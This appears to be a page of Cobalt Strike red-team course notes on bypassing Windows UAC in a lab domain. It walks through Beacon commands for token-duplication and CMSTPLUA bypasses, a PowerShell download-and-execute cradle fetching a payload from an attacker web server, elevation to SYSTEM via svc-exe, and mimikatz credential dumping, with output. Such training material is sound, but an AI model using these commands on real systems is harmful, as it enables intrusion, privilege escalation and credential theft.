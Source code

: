 Veterans of Windows Vista will remember the User Account Control window that popped up every time anything wanted to perform a privileged operation. This was to prevent malicious applications from carrying out actions without the explicit consent of an admin.

By default, applications will run in a Medium Integrity context even if the user is a local administrator. **nlamb** is a member of Domain Admins and subsequently the local administrators group on wkstn-2. However, if you launch the Command Prompt "normally" and attempt to add a new local user, it will fail.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/5505f63d-c1a1-42ff-b207-95609537e868)


To run the Command Prompt in high integrity, right-click it, select "Run as Administrator" and consent to the UAC dialogue.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/d770b198-b89a-49b2-bdf0-6d6778173f9f)


Now Command Prompt is running as an administrator (you will often see "Administrator" in the window title) and you can add the local user.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/694f8d5c-5231-4657-bc7f-664f3e4b0b95)


UAC was first introduced in Windows Vista and attracted complaints from users due to the frequency and annoyance of the popups, which led Microsoft to introduce some relaxations. These allow some of their own trusted, signed applications to "auto-elevate" without consent under certain conditions. In many ways, this decision paved the way for many of the loopholes exploited in "UAC bypasses".

The default configuration for UAC is **Prompt for consent for non-Windows binaries**, but can also have different settings such as **Prompt for credentials**, **Prompt for consent** and **Elevate without prompting**.

Seatbelt can be used to query the configuration applied to a machine.
```shell
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe uac

====== UAC ======

ConsentPromptBehaviorAdmin     : 5 - PromptForNonWindowsBinaries
EnableLUA (Is UAC enabled?)    : 1
```

A UAC bypass is a technique by which an application can go from **Medium** to **High Integrity** without prompting for consent. This is not technically an EoP because Microsoft do not consider UAC to be a security boundary; and since the user has to be a local administrator, you're not gaining any privilege that the user is not already allowed to have.

Jump onto the console of **WKSTN-2** and spawn a Beacon as **nlamb**. SharpUp will tell us that we're already a local admin, so UAC can be bypassed.
```shell
beacon> getuid
[*] You are DEV\nlamb

beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.
```

Cobalt Strike provides two means of executing code to bypass UAC. The first is via the `elevate` command, which bootstraps a listener via the chosen technique. The second is via the `runasadmin` command, which allows you to execute any arbitrary command.
```shell
beacon> elevate uac-token-duplication tcp-4444-local
[+] Success! Used token from PID 480
[+] established link to child beacon: 10.10.17.132
```
![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/edf7ec2e-90a9-4244-a376-9dc5c67d5b1f)

```shell
beacon> runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```
```shell
05/10 18:03:39 visit (port 80) from: 10.10.17.132
    Request: GET /b
    page Scripted Web Delivery (powershell)
    null
```
```shell
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.132
```

Not all UAC bypasses are created equal - some have "quirks" that you need to be aware of. Seatbelt's `TokenPrivileges` command can list the current token's privileges . A high integrity process may look something like this:

```shell
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

                     SeIncreaseQuotaPrivilege:  DISABLED
                          SeSecurityPrivilege:  DISABLED
                     SeTakeOwnershipPrivilege:  DISABLED
                        SeLoadDriverPrivilege:  DISABLED
                     SeSystemProfilePrivilege:  DISABLED
                        SeSystemtimePrivilege:  DISABLED
              SeProfileSingleProcessPrivilege:  DISABLED
              SeIncreaseBasePriorityPrivilege:  DISABLED
                    SeCreatePagefilePrivilege:  DISABLED
                            SeBackupPrivilege:  DISABLED
                           SeRestorePrivilege:  DISABLED
                          SeShutdownPrivilege:  DISABLED
                             SeDebugPrivilege:  SE_PRIVILEGE_ENABLED
                 SeSystemEnvironmentPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                    SeRemoteShutdownPrivilege:  DISABLED
                            SeUndockPrivilege:  DISABLED
                      SeManageVolumePrivilege:  DISABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED
                          SeTimeZonePrivilege:  DISABLED
                SeCreateSymbolicLinkPrivilege:  DISABLED
    SeDelegateSessionUserImpersonatePrivilege:  DISABLED
```

A high integrity session gained using Token Duplication looks like this:
```shell
====== TokenPrivileges ======

Current Token's Privileges

                          SeShutdownPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                            SeUndockPrivilege:  DISABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED
                          SeTimeZonePrivilege:  DISABLED
```

and this will cause actions that require privileged access to still fail.
```shell
beacon> logonpasswords
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 296058 bytes
[+] received output:
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

So even though we're in a high integrity session, we really can't do much. `elevate svc-exe` can be used to execute another Beacon as SYSTEM by utilising the Service Control Manager.
```shell
beacon> elevate svc-exe tcp-4444-local
Started service 96d0481 on .
[+] established link to child beacon: 10.10.17.132
```
![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/5e9c323a-3b8a-47af-88b2-b5dccaea8931)


This Beacon will have the necessary token privileges to run post-ex command such as `logonpasswords`. The moral of this story is to research into the specific bypass techniques before you use them.
